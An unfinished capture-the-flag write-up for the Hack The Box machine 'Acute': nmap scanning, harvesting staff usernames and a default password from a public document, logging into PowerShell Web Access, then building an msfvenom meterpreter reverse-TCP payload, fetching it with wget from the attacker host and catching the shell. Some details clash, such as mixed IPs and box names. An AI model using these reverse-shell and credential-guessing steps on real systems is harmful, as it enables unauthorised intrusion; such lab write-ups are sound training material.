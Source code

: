 # Acute HTB | 0xwerz | 03/06/22 
### The official [box page](https://app.hackthebox.com/machines/Undetected) on HTB 
<p align="center">
<img src="./img/Acute.png" alt="Acute poster" width="620"/>
</p>


### The writeup:
#### System Scan | **IP: 110.10.11.145**
as usual let's add the ip to to the `/etc/hosts` file and name it `acute.htb`
> `echo '10.10.11.145    undetected.htb ' >> /etc/hosts`

startup a nmap scan | **-sC for the default set of scripts**. | **-sV for Enables version detection**. | **-T4 for sending the traffic fast**.
>`nmap -sC -sV -T4 10.10.11.145`
```
werz@ctf01:~/ctf/htb/acute$ nmap -sC -sV -T4 10.10.11.145 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-03 01:58 CET
Nmap scan report for acute.htb (10.10.11.145)
Host is up (0.28s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=atsserver.acute.local
| Subject Alternative Name: DNS:atsserver.acute.local, DNS:atsserver
| Not valid before: 2022-01-06T06:34:58
|_Not valid after:  2030-01-04T06:34:58
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2022-07-21T00:58:43+00:00; -1s from scanner time.
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.73 seconds
```

## Open Ports
|Ports|Service|Takeaways|
|------|-----|-----|
|443|ssl/http| Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

So with have a single http/ssl port open and visiting `https://10.10.11.145` returns 404 that strange, there is a certificate with the name `atsserver.acute.local`. I’ll add that to the `/etc/hosts` file:

> echo 10.10.11.145     atsserver.acute.local

so we got a hit back on `https://atsserver.acute.local/`

![web page](/img/webpage.png)
### Web page enumeration

The about page may have some useful usernames under the `who we work with` headline.

![employees names](/img/who_we_work_with.png)

save them on a file list we may need them:
```
Awallace
Chall
Edavies
Imonks
Jmorgan
Lhopkins
```
```bash
echo "Awallace\nChall\nEdavies\nImonks\nJmorgan\nLhopkins" > users.enum
```

we also have a doc file:
![docx](/img/docx.png)

let's take a look
,there is a bunch of information.
- two links for staff inducation pages both returns 404
- there is a interesting section `IT overview` that gives a default password `Password1!`, and even mentions that some staff are not changing it:

    ![default pwd](/img/default_pwd.png)

we also have a windows PowerShell Web Access (PWSA) in the `Induction meetings with management staff` section:

![pwsa_link](/img/pwsa.png)

that goes to `https://atsserver.acute.local/Acute_Staff_Access`

if we check the metadata for the doc file we catch up in the description a hostname `Acute-PC01` that may be created in and the creator name `FCastle` and last the modified by `Daniel`

let's give all these information we got a try to login on that web powershell.

After some blind trys we got a valind request:
![vlid login](/img/pwsa_valid_login.png)

and we are in as edavies!

![](/img/pshell.png)

this web console is a bit of pain,`winpeas` is messed up, I'll generate a meterpreter shell

### Generaing meterpreter payload
```bash
werz@ctf01:~/ctf/htb/acute$ msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=9001 LHOST=10.10.14.141 -f exe -o shell.exe
```
We need the metasploit console, also the options configuration: 

for running metasploit console use:
> msfconsole

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.141
msf6 exploit(multi/handler) >
```

### Uploading the reverse shell

I'll setup a python webserver:
> python3 -m http.server 8080


we have no access to write for most of the directories, but we can in `C:\Utils>`

```powershell
PS C:\Utils> wget 10.10.14.141:8080/shell.exe -outfile rev.exe
```
Now we should run the meterpreter listener, after that execute the exe file:

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.141:9001
```

web powershel console:

```powershell
PS C:\Utils> .\rev.exe
```

and we got a hit back:

```bash
[*] Sending stage (200774 bytes) to 10.10.11.145
[*] Meterpreter session 1 opened (10.10.14.141:9001 -> 10.10.11.145:49857) at 2022-07-24 17:39:49 +0000

meterpreter >
```

to be continued...